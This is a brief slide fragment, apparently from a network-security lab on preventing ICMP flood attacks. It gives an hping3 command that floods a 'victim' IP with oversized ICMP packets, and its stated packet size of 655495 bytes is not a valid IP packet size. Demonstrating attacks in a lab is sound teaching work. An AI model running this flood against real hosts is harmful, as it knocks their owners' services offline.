

2. Prevent ICMP flood attack
Use hping3 to constantly sends ICMP packets with a size of 655495 bytes to the victim without waiting for responses from victim.
sudo hping3 -1 --flood 192.168.59.200 -d 655495